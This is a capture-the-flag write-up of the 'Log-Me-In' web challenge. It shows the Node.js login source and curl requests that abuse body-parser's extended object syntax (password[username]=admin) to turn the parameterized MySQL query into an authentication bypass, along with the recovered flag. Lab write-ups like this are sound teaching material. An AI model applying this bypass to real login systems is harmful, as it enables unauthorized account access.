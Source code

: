 # Log-Me-In
Category: Web

> Log in to get the flag

The following file was attached:

```javascript
/**
 * @fileoverview Description of this file.
 */

const mysql = require('mysql');
const express = require('express');
const cookieSession = require('cookie-session');
const cookieParser = require('cookie-parser');
const bodyParser = require('body-parser');

const flagValue = "..."
const targetUser = "michelle"

const {
  v4: uuidv4
} = require('uuid');

const app = express();
app.set('view engine', 'ejs');
app.set('strict routing', true);

/* strict routing to prevent /note/ paths etc. */
app.set('strict routing', true)
app.use(cookieParser());

/* secure session in cookie */
app.use(cookieSession({
  name: 'session',
  keys: ['...'] //don't even bother
}));

app.use(bodyParser.urlencoded({
  extended: true
}))

app.use(function(req, res, next) {
  if(req && req.session && req.session.username) {
    res.locals.username = req.session.username
    res.locals.flag = req.session.flag
  } else {
    res.locals.username = false
    res.locals.flag = false
  }
  next()
});

/* server static files from static folder */
app.use('/static', express.static('static'))

app.use(function( req, res, next) {
  if(req.get('X-Forwarded-Proto') == 'http') {
      res.redirect('https://' + req.headers.host + req.url)
  } else {
    if (process.env.DEV) {
      return next()
    } else  {
    return next()
    }
  }
});
// MIDDLEWARE ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

/* csrf middleware, csrf_token stored in the session cookie */
const csrf = (req, res, next) => {
  const csrf = uuidv4();
  req.csrf = req.session.csrf || uuidv4();
  req.session.csrf = csrf;
  res.locals.csrf = csrf;

  nocache(res);

  if (req.method == 'POST' && req.csrf !== req.body.csrf) {
    return res.render('index', {error: 'Invalid CSRF token'});
  }

  next();
}

/* disable cache on specifc endpoints */
const nocache = (res) => {
  res.setHeader('Cache-Control', 'no-store, no-cache, must-revalidate, proxy-revalidate');
  res.setHeader('Pragma', 'no-cache');
  res.setHeader('Expires', '0');
}

/* auth middleware */
const auth = (req, res, next) => {
  if (!req.session || !req.session.username) {
    return res.render('index', {error:"You must be logged in to access that"});
  }
  next()
}

// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~`
app.get('/logout', (req, res) => {
  req.session = null;
  res.redirect('/');
});


app.get('/', csrf, (req, res) => {
  res.render('index');
});

app.get('/about', (req, res) => {
  res.render('about');

});
app.get('/me', auth, (req, res) => {
  res.render('profile');
});

app.get('/flag', csrf, auth, (req, res) => {
  res.render('premium')
});

app.get('/login', (req, res) => {
  res.render('login');
});

app.post('/login', (req, res) => {
  const u = req.body['username'];
  const p = req.body['password'];

  const con = DBCon(); // mysql.createConnection(...).connect()

  const sql = 'Select * from users where username = ? and password = ?';
  con.query(sql, [u, p], function(err, qResult) {
    if(err) {
      res.render('login', {error: `Unknown error: ${err}`});
    } else if(qResult.length) {
      const username = qResult[0]['username'];
      let flag;
      if(username.toLowerCase() == targetUser) {
        flag = flagValue
      } else{
        flag = "<span class=text-danger>Only Michelle's account has the flag</span>";
      }
      req.session.username = username
      req.session.flag = flag
      res.redirect('/me');
    } else {
      res.render('login', {error: "Invalid username or password"})
    }
  });
});

/*
 * ...SNIP...
 */

```

## Solution

This is a simple node.js application which offers not much more than a login page. However, we need to login as "Michelle" if we want to get the flag.

At first I thought this must be a prototype pollution challenge, targeting:
```javascript
if(username.toLowerCase() == targetUser) {
    flag = flagValue
}
```

If we could pollute the `object` prototype and override `toLowerCase` with logic of our own, we would be able to return "michelle" instead of the actual lower case. But first, we need to find a way to log in with some username in order to pass the `qResult.length` check.

Luckily, `admin:admin` did the trick:

```console
root@kali:/media/sf_CTFs/google/logmein# curl 'https://log-me-in.web.ctfcompetition.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw "username=admin&password=admin" && echo
Found. Redirecting to /me
```

However, I wasn't able to find a way to pollute the prototype and override `toLowerCase`. Eventually I moved on to try other things, such as sending the same parameter twice with different values:

```console
root@kali:/media/sf_CTFs/google/logmein# curl 'https://log-me-in.web.ctfcompetition.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw "username=admin&password=admin&username=michelle" -s | grep ERROR
                <p>Unknown error: Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near &#39; &#39;michelle&#39; and password = &#39;admin&#39; order by id&#39; at line 1</p>
```

This gave out an SQL error, proving that we are able to meddle with the SQL query.

The next thing I tried was the *extended* syntax of `body-parser`, which `allows for rich objects and arrays to be encoded into the URL-encoded format`. It worked for [Pasteurize](Pasteurize.md) after all.

```console
root@kali:/media/sf_CTFs/google/logmein# curl 'https://log-me-in.web.ctfcompetition.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw "username=admin&password[test]=admin" -s | grep
ERROR
                <p>Unknown error: Error: ER_BAD_FIELD_ERROR: Unknown column &#39;test&#39; in &#39;where clause&#39;</p>
```

`Unknown column 'test'`? This looks really promising. Next thing to try is:

```console
root@kali:/media/sf_CTFs/google/logmein# curl 'https://log-me-in.web.ctfcompetition.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw "username=michelle&password[username]=admin" -s
Found. Redirecting to /me
```

Looks like we were able to log in! Let's check the cookie:

```console
root@kali:/media/sf_CTFs/google/logmein# curl 'https://log-me-in.web.ctfcompetition.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw "username=michelle&password[username]=admin" -s -v 2>&1 | grep cookie
< set-cookie: session=eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9; path=/; httponly
< set-cookie: session.sig=bm5eHrmgRjBNmerS49mKNDV_tP4; path=/; httponly
root@kali:/media/sf_CTFs/google/logmein# echo eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9 | base64 -d
{"username":"michelle","flag":"CTF{a-premium-effort-deserves-a-premium-flag}"}
```

The flag: `CTF{a-premium-effort-deserves-a-premium-flag}`